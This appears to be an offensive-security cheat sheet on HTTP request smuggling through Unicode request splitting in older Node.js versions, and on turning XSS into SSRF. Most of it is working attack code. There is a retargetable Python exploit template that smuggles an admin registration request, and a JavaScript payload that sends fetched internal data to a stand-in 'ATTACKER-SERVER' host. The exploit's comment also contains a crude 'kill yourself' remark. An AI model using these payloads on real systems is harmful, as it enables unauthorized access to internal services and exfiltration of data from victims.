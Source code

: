 # HTTP request smuggling
## Node 6.x and 8.x
[Node.js http module](https://translate.google.com/website?sl=auto&tl=en&hl=ar&u=https://github.com/nodejs/node/issues/13296) is vulnerable to this attack and can be abused to trigger an SSRF attack.
- Vulnerable code
```js
const http = require('http') const server = http.createServer((req, res) => { console.log(req.url); res.end(); }); server.listen(8000, function() { http.get('http://127.0.0.1:8000/?param=x\u{0120}HTTP/1.1\u{010D}\u{010A}Host:{\u0120}127.0.0.1:8000\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private', function() { }); });
```
- Python template for abusing
```python
#!/usr/bin/python3
import requests

url = "http://134.209.23.209:31246/api/weather" # Change
proxy = {"http":"http://127.0.0.1:8080"}

"""Smuggled request options"""
Method = "post".upper() # Change
endpoint_to_smuggle = "/register" # Change
host_to_smuggle = "127.0.0.1" # Change
post_data_to_smuggle = f"""username=admin&password=admin""" # Change
post_data_to_smuggle = post_data_to_smuggle.replace(" ", "\u0120").replace("'", "%27").replace('"', "%22")
content_length = len(post_data_to_smuggle)

if Method == "POST":
    smuggle = '\u0120HTTP/1.1\u010D\u010AHost:\u0120' + host_to_smuggle + '\u010D\u010A\u010D\u010A' + Method + '\u0120' + endpoint_to_smuggle + '\u0120HTTP/1.1\u010D\u010AHOST:\u0120' + host_to_smuggle + '\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str(content_length) + '\u010D\u010A\u010D\u010A' + post_data_to_smuggle + '\u010D\u010A\u010D\u010AGET\u0120/?Abuqasem=lol'
else:
    smuggle = '\u0120HTTP/1.1\u010D\u010AHost:\u0120' + host_to_smuggle + '\u010D\u010A\u010D\u010A' + Method + '\u0120/' + endpoint_to_smuggle + '\u0120HTTP/1.1\u010D\u010AHOST:\u0120' + host_to_smuggle + '\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str(content_length) +'\u010D\u010A\u010D\u010AGET\u0120/?Abuqasem=lol'

"""Sending payload"""
Post_data = json={'endpoint': '127.0.0.1/'+ smuggle, 'city': 'chengdu', 'country': 'CN'} # Change (must be json to avoid unicode shit or send it by hand with burp then kill yourself.)
req = requests.post(url,data=Post_data , proxies=proxy)
print("[@] Status Code: ", req.status_code)
print("[@] Response Body ", req.text)
```
> **References:**
> 1. https://www-rfk-id-au.translate.goog/blog/entry/security-bugs-ssrf-via-request-splitting
> 2. https://hackerone.com/reports/409943

# SSRF
Leveraging XSS to SSRF
```
var request1 = new XMLHttpRequest();
request1.open('GET', "<SSRF-URL>", false);
request1.send()
var response1 = request1.responseText;
var request2 = new XMLHttpRequest();
request2.open('GET', 'http://ATTACKER-SERVER/?meow=' + response1, true);
request2.send()
```
